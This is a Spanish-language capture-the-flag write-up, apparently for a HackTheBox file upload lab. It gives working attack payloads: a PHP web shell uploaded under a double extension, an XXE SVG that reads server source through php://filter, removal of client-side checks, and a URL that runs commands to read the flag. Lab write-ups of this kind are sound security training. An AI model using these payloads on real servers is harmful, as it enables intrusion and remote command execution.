





# Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    
</p>

---

2. Ahora reuniremos toda la información posible sobre la **página web.**

* En el apartado `Contact Us`, tenemos un formulario en el cual podemos subir uan imagen.

<p align="center">
    
</p>

* Si vamos al código fuente de la página de `Contact Us` veremos las siguiente rutas y archivos

`<script src="/contact/script.js"></script>`

* **Script.js**
```js
if (!files) {
      $('#upload_message').text("Please select a file");
    } else {
      $.ajax({
        url: '/contact/upload.php',
        type: 'post',
        data: fd,
        contentType: false,
        processData: false,
        success: function (response) {
          if (response.trim() != '') {
            $("#upload_message").html(response);
          } else {
            window.location.reload();
          }
        },
      });
    }
```

* Vemos que se tramita una petición por `POST` a **`upload.php`**

---

3. Subimos una imagen normal, **damos clic en el 🟩 `botón verde` 🟩** e interceptamos la petición con **Burp Suite**

<p align="center">
    
</p>

* Realizaremos un ataque de **Doble Extensión Reversa**
* 🟦 En la línea azul tenemos que incluir `<?php system($_GET['cmd']); ?>`, para que al momento de cargar el código sea interprado.

---

4. El nombre del archivo será `cmd.phar.png`, si tratamos de acceder a la típica ruta `/profile_images/cmd.phar.png`, veremos que no existe, por lo que en `HackTheBox` nos dicen que podemos leer el `archivo upload.php` 

---

5. Haremos un ataque XXE para leer el archivo `upload.php` alojado en **/var/www/html/upload.php**

* **carrot.svg**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/contact/upload.php"> ]>
<svg>&xxe;</svg>
```

* Eliminamos la validación del `lado del Cliente`
```html
onchange="checkFile(this)"
accept=".jpg,.jpeg,.png"
```

* Lo subimos en el formulario, damos clic en el 🟩 `botón verde` 🟩, y lo interceptamos con `Burp Suite`

<p align="center">
    
</p>

---

6. Decodeamos en **base64** el contenido recibido
* **COMANDO:** `echo -n "[Data Base64]" | base64 -d`

* `Contenido Más Relevante`
```php
// uploaded files directory             
$target_dir = "./user_feedback_submissions/";                         
                                                                  
// rename before storing                                                      
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);  
$target_file = $target_dir . $fileName;
```

* El directorio es `user_feedback_submissions`
* Se realiza un tratamiento al nombre del archivo antes de guardarlo, se coloa el `año` `mes` y `día` luego `_` y el nombre del archivo base
  * **Ej:** `230608_cmd.phar.png`

---

7. Accedemos al archivo, y como podemos ejecutar comandos leemos la flag
* **URL:** `http://[IP]/contact/user_feedback_submissions/[Nombre Archivo]?cmd=cat%20/flag_[ID].txt`

<p align="center">
    
</p>